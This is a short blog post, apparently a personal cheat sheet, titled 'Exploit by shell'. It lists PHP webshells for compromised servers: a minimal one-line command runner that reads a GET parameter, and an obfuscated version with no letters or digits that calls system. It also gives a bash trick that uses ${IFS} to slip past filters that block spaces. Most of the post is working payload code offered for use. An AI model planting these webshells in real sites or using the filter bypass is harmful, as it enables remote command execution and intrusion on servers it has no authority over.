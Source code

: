 ```yaml
---
layout: post
title: "Exploit by shell"
description: "Some interesting shell for exploit server"
categories: [shell, exploit]
tags: [tutorial]
redirect_from:
  - /2018/09/02/
---
```


* Kramdown table of contents
{:toc .toc}

# PHP webshell
* Beautiful: [p0wny shell](https://github.com/gsdt/p0wny-shell)
* Shortest: 
~~~ php 
<?=`$_GET[1]`?>
// .../shell.php?1=ls
~~~
* Without a-zA-Z0-9:
~~~ php
<?=$_='$<>/'^'\{\{\{\{';${$_}[_](${$_}[__]);
// .../shell.php?_=system&__=ls
~~~ 
# Bash shell
* Without space separated: `cat${IFS%?}file.txt`

